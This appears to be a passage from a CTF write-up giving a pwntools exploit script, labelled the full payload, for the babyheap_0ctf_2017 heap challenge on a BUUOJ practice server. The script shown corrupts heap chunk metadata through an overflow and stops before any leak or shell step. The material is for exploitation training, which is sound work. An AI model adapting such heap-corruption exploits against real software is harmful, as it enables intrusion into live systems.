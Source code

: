完整 payload：

```python
from pwn import *
import sys

 
elf = ELF("./babyheap_0ctf_2017")
libc = ELF("./libc-2.23.so")
p = remote('node5.buuoj.cn',27132)

def alloc(size):
    p.recvuntil("Command: ")
    p.sendline("1")
    p.recvuntil("Size: ")
    p.sendline(str(size))


def fill(idx, content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Size: ")
    p.sendline(str(len(content)))
    p.recvuntil("Content: ")
    p.send(content)
 
 
def free(idx):
    p.recvuntil("Command: ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
 
 
def dump(idx):
    p.recvuntil("Command: ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvline()
    return p.recvline()
 
 
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x80)

free(1)
free(2)

payload = p64(0) * 3 + p64(0x21) + p64(0) * 3 + p64(0x21) + p8(0x80)

fill(0, payload)

payload = p64(0) * 3 + p64(0x21)

fill(3, payload)
 
alloc(0x10)
alloc(0x10)
```